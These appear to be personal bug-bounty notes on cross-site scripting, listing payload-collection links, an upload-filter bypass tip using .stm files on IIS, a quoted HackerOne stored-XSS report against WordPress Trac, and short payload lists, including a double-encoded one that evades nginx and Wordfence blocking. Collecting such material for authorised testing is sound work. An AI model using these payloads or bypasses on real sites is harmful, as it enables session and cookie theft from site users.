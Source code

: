 https://www.kitploit.com/2018/05/xss-payload-list-cross-site-scripting.html

Almost all XSS Payloads. xss大全, 这个好像下了
https://github.com/irfan-knr/KNR-XSS-Payloads


## 这里面相关xss的

https://github.com/trimstray/the-book-of-secret-knowledge

https://github.com/qazbnm456/awesome-web-security

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

https://www.cgisecurity.com/xss-faq.html







https://twitter.com/ldionmarcil/status/922553386645454850

Stored XSS quick-win: IIS serves .stm files as text/html. Most file uploads features will blacklist asp(x), s/htm(l), etc. but rarely .stm



https://hackerone.com/reports/643908
I found a stored xss @ https://core.trac.wordpress.org/
Steps:
Go to https://core.trac.wordpress.org/ and login. (open new private window and login with another account)
Go to https://core.trac.wordpress.org/newticket and set a summary and description.
Select a Workflow Keyword and click manual. Paste the payload: "><svg/onload=alert(document.domain)>
Click enter button and click Create Ticket button. Now, you will see xss alert. Copy the url and go to private window. Go to url and you will see xss alert.
PoC: https://youtu.be/Nyt1op_73vs
Impact: Stealing cookies

XSS payload to keep on your notes:

<script>alert(1)</script> -> nginx block
"><img src=x onerror=alert(1)> -> Wordfence block
ax6zt%2522%253e%253cscript%253ealert%2528document.domain%2529%253c%252fscript%253ey6uu6 -> successful execution

Reflected xss successfull payload for me:

1.<b onmouseover=alert('Wufff!')>click me!</b>
2."><script>propmt("mamunwhh")</script>
3."><script>alert(document.cookie)</script>

4. /><svg src=x onload=confirm("1337");>

Brute Logic
@brutelogic
·
2019年6月12日
Here's a small #XSS list for manual testing (main cases, high success rate).
